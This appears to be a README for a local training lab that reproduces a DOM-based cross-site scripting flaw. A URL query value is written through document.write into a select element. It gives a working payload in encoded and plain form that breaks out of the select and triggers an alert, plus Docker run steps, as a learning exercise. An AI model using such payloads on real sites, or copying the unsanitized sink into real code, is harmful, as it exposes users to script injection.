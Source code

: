 # DOM XSS in document.write sink using source location.search inside a select element

## SYNOPSIS
- Created a static site has a select element
- ```pcapId``` grabs the query string value of the url
- Concatenates ```pcapId``` as an option element of the parent select element
- Renders the the select element and its corresponding options onto the screen

## PAYLOAD
- URL encoded ```http://localhost:8080/?pcap=%22%3E%3C/select%3E%3Cimg%20src=1%20onerror=alert(1)%3E```
- Plaintext ```http://localhost:8080/?pcap="></select><img%20src=1%20onerror=alert(1)>```

## How to:
- Run build_docker
- Use the payload above
- You should see an alert window

#### Reference
DOM XSS in document.write sink using source location.search inside a select element \
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element
